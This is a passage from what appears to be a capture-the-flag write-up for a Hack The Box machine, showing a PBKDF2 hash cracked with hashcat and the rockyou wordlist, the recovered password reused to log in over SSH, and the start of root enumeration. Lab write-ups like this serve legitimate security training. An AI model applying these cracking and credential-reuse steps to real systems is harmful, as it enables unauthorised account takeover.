 The resulting hash is:



    sha256:10000:c08zWEliZVcxNA==:ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=



Passing that to `hashcat` cracks it with `rockyout.txt` in a less than a
minute:



    $ hashcat susanne.hash /usr/share/wordlists/rockyou.txt 
    hashcat (v6.2.6) starting in autodetect mode
    ...[snip]...
    Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
    The following mode was auto-detected as the only one matching your input hash:

    10900 | PBKDF2-HMAC-SHA256 | Generic KDF
    ...[snip]...
    sha256:10000:c08zWEliZVcxNA==:ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=:february15



### SSH

With susanne's username and password, I might as well try SSH, and it
works:



    oxdf@hacky$ sshpass -p february15 ssh susanne@health.htb
    ...[snip]...
    susanne@health:~$



And I can read `user.txt`:



    susanne@health:~$ cat user.txt
    3306ec8d************************



## Shell as root

### Enumeration

#### Web

There is another home directory on the box, but it's just Gogs. There's
nothing super interesting in susanne's home directory.

The website files are kept in `/var/www.md`:



    susanne@health:/var/www.md$ ls
    app            composer.lock  package.json  resources   tests
    artisan        config         phpunit.xml   routes      vendor
    bootstrap      database       public        server.php  webpack.mix.js
    composer.json  node_modules   README.md     storage
